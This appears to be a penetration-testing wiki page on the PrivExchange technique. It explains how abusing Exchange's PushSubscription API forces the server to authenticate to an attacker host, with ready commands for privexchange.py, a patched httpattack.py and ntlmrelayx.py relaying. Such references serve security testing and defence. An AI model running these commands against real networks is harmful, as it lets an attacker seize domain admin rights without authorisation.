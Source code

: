 # PrivExchange \(PushSubscription abuse\)

## Theory

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. As Exchange servers usually have high privileges in a domain \(i.e. `WriteDacl`, see [Abusing ACLs](../abusing-aces/)\), the forced authentication can then be relayed and abused to obtain domain admin privileges \(see [NTLM Relay](../abusing-lm-and-ntlm/relay.md) and [Kerberos Unconstrained Delegations](../abusing-kerberos/delegations.md#unconstrained-delegations-kud)\).

## Practice

[PrivExchange](https://github.com/dirkjanm/privexchange/) \(Python\) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP s2012exc.testsegment.local
```

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../abusing-lm-and-ntlm/relay.md) to make the API call.

The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the script since it is hard-coded.

```bash
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
mv httpattack.py httpattack.py.old
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
cd /PATH/TO/impacket
pip3 install .
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```
{% endhint %}

## References

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" caption="" %}

